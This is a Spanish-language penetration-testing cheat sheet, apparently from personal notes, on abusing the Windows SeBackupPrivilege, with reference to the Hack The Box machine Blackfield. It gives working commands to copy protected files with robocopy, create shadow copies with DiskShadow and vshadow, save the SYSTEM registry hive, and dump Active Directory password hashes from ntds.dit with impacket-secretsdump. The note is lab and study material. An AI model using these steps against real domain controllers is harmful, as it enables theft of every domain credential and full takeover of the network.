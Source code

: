 
## DESCRIPTION

El privilegio SeBackupPrivilege te permite leer cualquier fichero del equipo "como si estuvieras haciendo un backup" aunque no tengas permisos para eso.

![[Pasted image 20230217141446.png]]

#### Mas información:
* https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system

## EXPLOITATION

### OPTION 1: ROBOCOPY TO READ FILES

1. Simplemente hacemos la copia en una carpeta del equipo en la que podamos escribir.

```
robocopy /b <<Ruta que se quiere copiar>> <<Ruta destino>>

#Ejm:
robocopy /b C:\users\administrator\desktop C:\programdata\temp
```

![[Pasted image 20230216192104.png]]

**!!NOTA IMPORTANTE!!** Aquí lo prueba con otra movida que no es el robocopy: https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html

### OPTION 2: COPIAR BASE DE DATOS DE CONTRASEÑAS NTDS (AD)

**DiskShadow**

Podemos abusar de este privilegio para crear una copia de la base de datos de contraseñas del dominio (ntds.dit) que se encuentra en el siguiente directorio. Pero como el dispositivo lo tiene en uso entonces usamos el ataque conocido como DiskShadow.

Más información: https://pentestlab.blog/tag/diskshadow/

![[Pasted image 20230216203014.png]]

1.  Tenemos que crear un fichero con el siguiente contenido:

```
#NO USES ESTE MIRA MÁS ABAJO

set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
```

2.  Subimos el fichero a la máquina, en este ejemplo se ha usado WINRM

![[Pasted image 20230216210242.png]]

3. Lo ejecutamos con la utilidad de windows diskshadow.exe

```
diskshadow.exe /s diskshadow.txt
```

**!!NOTA IMPORTANTE!!** Ejecutarlo en una ruta con permiso de escritura si no no te va a hacer la copia de memoria. Por ejemplo ` C:\Temp

**!!NOTA IMPORTANTE!!**
	CUIDADO CON ESTA TONTERIA, POR QUE AL EJECUTARLO NOS DA ESTE ERROR:
	
	![[Pasted image 20230216210558.png]]

El muy cabron quita el ultimo caracter de cada fila del documento por lo tanto vamos a añadirle un espacio al final en diskshadow.txt:

```
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
```

4. Ya funciona. Se ha creado una shadow copia de C: en Z:

![[Pasted image 20230216211137.png]]

5. Copiamos el fichero usando robocopy en `C:\Temp` de `Z:\Windows\ntds` y descargamos la base de datos ntds.dit

```
#Hacer copia a una carpeta que tengamos permisos

robocopy /b z:\windows\ntds\  C:\programdata\ ntds.dit

```

**!!NOTA IMPORTANTE!!** -> Si lo descargas directamente desde `Z:\Windows\ntds` a tu máquina da error a utilizar secretdumps.

![[Pasted image 20230217141821.png]]

6. Usamos impacket-secretdump para dumpear los hashes del dominio.

```
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

![[Pasted image 20230217140541.png]]
7. Si es un hash o bien lo crackeamos o hacemos pass the hash.


### OPTION 3: VSHADOW FOR NTDS.DIT

Descargar vshadow.exe: https://github.com/albertony/vss

```
vshadow.exe -nw -p  C:
```

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

```
reg.exe save hklm\system c:\system.bak
```

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

## MACHINES

* Hack The Box: Blackfield
